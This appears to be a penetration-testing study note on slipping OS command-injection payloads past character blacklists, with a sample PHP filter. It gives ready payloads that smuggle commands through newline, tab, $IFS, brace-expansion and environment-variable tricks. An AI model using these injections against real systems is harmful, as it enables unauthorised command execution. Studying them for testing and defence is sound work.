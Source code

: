 # Identifying Filters
***
### Filter / WAF protection
#### While attempting to inject OS commands using some operator we could see that always returned an error message ("Invalid Input") . Indicating the presence of a security mechanism that denied the request

### Blacklisted Characters
#### Example of PHP blacklist verification
```php
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```

### Identifying Blacklisted Character
#### By executing each request with one character at a time to check which gets blocked.
#### Example
```bash
127.0.0.1;
```


### Bypassing Blacklisted Operators
#### Usually the new-line (%0a) character is usually not blacklisted, as it may be needed in the payload itself. The new-line works in appending our commands.

### Bypassing Blacklisted Spaces
#### A space is commonly blacklisted character, more specifically when the input souldn't contain any spaces.
#### Luckily, there are many ways to add a space character without using it
##### **Using Tabs** (%09)
```http request
ip = 127.0.0.1%0a%09
```

##### **Using $IFS**
##### This Linux Environmental variable may also work, because has a default value of a space and a tab.
```
ip = 127.0.0.1%0a${IFS}
```

##### **Using Brace Expansion**
##### Bash Brace Expansion will automatically add spaces between arguments wrapped between braces
```http request
ip=127.0.0.1%0a{ls,-la}
```


### Bypassing Other Blacklisted Characters
#### Another common blacklisted character is the slash or backlash
#### Linux
##### Using Linux Environment Variables ($PATH)
```bash
$ echo ${PATH}
/usr/local/bin:/usr....
```
#### We can use that same variable to only get the slash character, by specifying the start index and the legth of the string we want to extract
```bash
$ echo ${PATH:0:1}
/
```
#### There are other environment variables, **$HOME** or **PWD** that we can use to get that same result or for other operators
```bash
$ echo ${LS_COLORS:10:1}
;
```
##### **Note**: The **printenv** command prints all environmental variables in Linux

#### Windows
##### We can use the same idea for Windows, by specifying a starting point (```~6 -> \student```) and then specifying a negative end position (```-7 -> \```)
```commandline
> echo %HOMEPATH:~6,-11%
\
```

##### In Windows PowerShell we can achieve the same thing, by specifying the index of the character we need
```commandline
>  $env:HOMEPATH[0]
\
```

##### To print all the environmental variables in PowerShell we can use the **Get-ChildItem ENV** command.

### Character Shifting
#### This ```<<<``` command , in Linux, shifts any character we pass by 1
```bash
$ man ascii
$ echo $(tr '!-}' '"-~'<<<[)
\
```

#### Full example utilising some methods above
```http request
ip=127.0.0.1%09

ls%09..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}home
```

## [PayloadsAllTheThings ](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

